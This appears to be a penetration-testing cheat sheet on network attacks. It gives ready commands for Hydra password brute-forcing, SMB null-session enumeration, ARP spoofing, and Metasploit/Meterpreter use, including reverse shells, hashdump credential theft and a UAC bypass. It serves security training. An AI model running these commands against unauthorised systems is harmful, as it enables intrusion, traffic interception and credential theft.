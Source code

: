 # Network Attacks

### Seclists

[SecLists](https://github.com/danielmiessler/SecLists) is a great list containing common usernames, passwords, URLs, sensitive data patterns, fuzzing payloads, web shells, and more.

```
apt-get install seclists
```

### Hydra

Hydra is a fast, parallelized, network authentication cracker that supports different protocols.

```
hydra -L <users file> -P <password file> -t 10 <target> ssh -s 22
hydra -L <users file> -P <password file> telnet://<target>
```

### Windows Shares

NetBIOS can supply some of the following information when querying a computer:

* Hostname
* NetBIOS name
* Domain
* Network Shares

Badly configured shares exploitation can lead to:

* Information disclosure
* Unauthorized file access
* Information leakage used to mount a target attack

Null session attacks can be used to enumerate a lot of information. Attackers can steal information about:

* Passwords
* System users
* System Groups
* Running system processes

```
# Most common windows command to enumerate Windows shares
nbtstat -A <target>
```

```
# Once an attacker knows that a machine has the File Server service running, they can enumerate the shares using NET VIEW
NET VIEW <target>

# This tells Windows to connect to the IPC$ share by using an empty password and empty username
NET USE \\<target IP address>\IPC$ "" /u:''
```

```
# These commands can be used on a linux machine to enumerate network shares
nmblookup -A <target>

# Smbclient can do the same as NET VIEW but it also displays administrative shares that are hidden when using Windows standard tools
smbclient -L //<target> -N (list shares without asking for password)
smbclient //<target>/share -N (mount share)

# enum4linux is very powerful PERL script that can be used to enumerate Windows shares
enum4linux -a <target>
```

By default enum4linux performs:

* User enumeration
* Share enumeration
* Group and member enumeration
* Password policy extraction
* OS information detection
* A nmblookup run
* Printer information extraction

### ARP Poisoning/Spoofing (Dsniff)

ARP Poisoning is a powerful attack you can use to intercept traffic on a switched network.

```
# tells my machine to forward packets intercepted to the real destination hosts
echo 1 > /proc/sys/net/ipv4/ip_forward

# arpspoof -i <interface> -t <target> -r <host>
arpspoof -i tap0 -t 10.10.10.10 -r 10.10.10.11

# Example: to intercept traffic between 192.168.1.5 and 192.168.1.6 
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i eth0 -t 192.168.1.5 -r 192.168.1.6
# Then run Wireshark and intercept the traffic
```

### Metasploit

Metasploit is an open-source framework used for penetration testing and exploit development.

Metasploit gives you a wide array of commuunity contributed exploits and attack vectors that can be used against various systems and technoologies.

Basic workflow to exploit a target using MSFConsole:

* Identifying a vulnerable service
* Searching for a proper exploit for that service
* Loading and configuring the exploit
* Loading and configuring the payload you want to use
* Running the exploit code and getting access to the vulnerable machine

```
# Starts up metasploit console
msfconsole

# Search all modules by term
search <search term>

# Setting which module to use
use /path/to/exploit

# Once a module is being used to show all options to configure
show options

# Use set command and name of setting to configure all settings
set payload /path/to/payload
set RHOST <remote host>
set RPORT <remote port>

# To run/exploit module
run
exploit
```

Payloads are pieces of code injected by an exploit module into the victim machine or service.

A payload is used by an attacker to get:

* An OS Shell
* A VNC or RDP connection
* A Meterpreter shell
* The execution of an attacker-supplied application

### Meterpreter

Meterpreter is a very powerful shell which runs on Android, BSD, Java, Linux, PHP, Python, and Windows vulnerable applications and services.

Meterpreter is more than a simple shell. It provides advanced features to gather information, transfer files between the attacker and victim machines, install backdoors and more.

Meterpreter lets you perform information gathering on the exploited machine and the network it is attached to. You can retrieve:

* Information about the machine and the OS
* The network configuration in use
* The routing table of the compromised host
* Information about the user running the exploited process

```
# You can set your payload to be a meterpreter shell before running it
set payload <windows, linux, java etc>/meterpreter/reverse_tcp

# Once you have a meterpreter session open you can background it or use Ctrl+z
background

# Use the sessions command to see all current running sessions
sessions
sessions -l

# Use the -i flag and the sessions number to interact with it
sessions -i 1

# Useful information gathering commands once in meterpreter shell
sysinfo
ifconfig
route
getuid
getsystem

# The hashdump module dumps the password database of a Windows machine
use post/windows/gather/hashdump
set session 1
run

# bypassuac is a module you can use to bypass uac control on a windows machine
use exploit/windows/local/bypassuac
show options
set session 1
exploit
getuid (now having administrative privileges)

# The shell command gives you a standard OS shell
shell
```
